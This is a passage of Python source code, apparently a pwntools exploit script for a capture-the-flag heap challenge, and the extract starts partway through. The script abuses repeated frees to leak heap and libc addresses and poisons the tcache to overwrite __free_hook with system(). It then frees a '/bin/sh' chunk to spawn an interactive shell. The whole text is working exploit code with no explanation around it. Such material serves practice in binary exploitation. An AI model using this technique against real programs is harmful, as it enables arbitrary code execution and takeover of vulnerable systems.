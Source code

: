 ```
    cmd(4)

def exp():
    new('arttnba1', 0x10, '/bin/sh\x00')
    new('arttnba0', 0x10, 'arttnba0')
    new('arttnba2', 0x20, 'arttnba2')
    new('shell', 0x30, 'shell')
    new('sheep', 0x30, 'sheep')

    for i in range(5):
        free('arttnba0')
        edit('arttnba0', '') 
    for i in range(5):
        free('shell')
        edit('shell', '')
    for i in range(5):
        free('arttnba2')
        edit('arttnba2', '')

    free('arttnba2')
    p.recv()
    cmd(2)
    p.recvuntil(b"Name:")
    p.sendline('arttnba2')
    p.recvuntil(b"Input")
    heap_addr = int(p.recvuntil('bytes', drop = True), 16)
    p.sendline('')

    new('arttnba3', 0x90, 'arttnba3')

    for i in range(7):
        free('arttnba3')
        edit('arttnba3', '')

    free('arttnba3')
    p.recv()
    cmd(2)
    p.recvuntil(b"Name:")
    p.sendline('arttnba3')
    p.recvuntil(b"Input")
    main_arena = int(p.recvuntil('bytes', drop = True), 16) - 96
    p.sendline(p64(main_arena + 96)) 
    malloc_hook = main_arena - 0x10
    libc_base = malloc_hook - libc.sym['__malloc_hook']
    log.info('libc addr: ' + hex(libc_base))

    edit('arttnba0', b'A' * (0x8 + 0x50) + p64(0) + p64(0x31) + b'A' * 0 + p64(libc_base + libc.sym['__free_hook'] - 8) * 3)
    new('arttnba7', 0x20, p64(libc_base + libc.sym['system'])*2)
    new('freehook', 0x20, p64(libc_base + libc.sym['system'])*2)

    edit('shell', b'A' * (0x8 + 0x20 + 0x50) + p64(0) + p64(0x41) + b'A' * 0 + b'/bin/sh\x00' * 10)

    free('sheep') 
    p.interactive()

if __name__ == '__main__':
    exp() 
```